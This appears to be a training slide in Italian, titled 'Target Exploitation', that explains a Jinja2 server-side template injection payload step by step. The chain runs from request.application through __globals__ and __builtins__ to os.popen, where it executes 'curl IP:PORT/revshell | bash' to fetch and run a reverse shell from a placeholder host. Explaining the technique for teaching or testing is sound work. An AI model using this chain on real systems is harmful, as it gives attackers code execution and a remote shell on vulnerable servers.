

# Target Exploitation

Questo codice utilizza una tecnica avanzata per eseguire del codice arbitrario all'interno di un'applicazione Python. Vediamo nel dettaglio cosa fa ogni parte del codice:
{{ ... }}: Questa è una sintassi utilizzata nei template engines come Jinja2 per eseguire codice Python all'interno di template HTML.
request|attr("application"): Ottiene l'attributo application dall'oggetto request. Questo di solito si riferisce all'applicazione WSGI in esecuzione.
attr("__globals__"): Ottiene l'attributo __globals__ dell'oggetto application. Questo fornisce accesso agli oggetti globali dell'applicazione.
attr("__getitem__")("__builtins__"): Ottiene l'elemento __builtins__ dal dizionario globale. __builtins__ contiene tutti i built-in di Python come funzioni e moduli di base.
attr("__getitem__")("__import__")("os"): Utilizza la funzione __import__ per importare il modulo os.
attr("popen")("curl IP:PORT/revshell | bash"): Usa popen del modulo os per eseguire il comando shell curl IP:PORT/revshell | bash.
attr("read")(): Legge il risultato dell'esecuzione del comando shell.